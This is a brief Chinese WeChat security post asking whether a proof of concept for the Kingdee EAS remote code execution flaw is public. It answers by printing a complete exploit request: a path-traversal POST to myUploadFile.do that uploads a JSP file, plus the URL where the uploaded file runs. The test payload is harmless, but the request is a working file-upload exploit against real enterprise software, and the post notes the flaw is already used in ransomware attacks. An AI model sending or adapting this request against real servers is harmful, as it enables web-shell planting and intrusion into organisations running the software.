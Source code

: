 #  POC没有公开吗？

[ 浪飒sec ](javascript:void\(0\);)

**浪飒sec** ![]()

微信号 langsasec

功能介绍 浪飒，共建网络安全

____

___发表于_

收录于合集

微步哥哥发的

[已发现被用于勒索！金蝶EAS及EAS
Cloud远程代码执行漏洞（二次更新）](https://mp.weixin.qq.com/s?__biz=Mzg5MTc3ODY4Mw==&mid=2247503289&idx=1&sn=2d93b8ccde43794ed5d263d103087663&scene=21#wechat_redirect)  

![]()

![]()

掌控提到的这个其实下面这个一样吧

已经有人公开了吧，搜myUploadFile

![]()

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /easportal/buffalo/%2e%2e/cm/myUploadFile.do HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundarySq4lDnabv8CwHfvxContent-Length: 205  
    ------WebKitFormBoundarySq4lDnabv8CwHfvxContent-Disposition: form-data; name="myFile"; filename="test.jsp"Content-Type: text/html  
    <%out.println("test");%>------WebKitFormBoundarySq4lDnabv8CwHfvx--

  

jsp路径：

  * 

    
    
    http://127.0.0.1/easportal/buffalo/../test.jsp

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

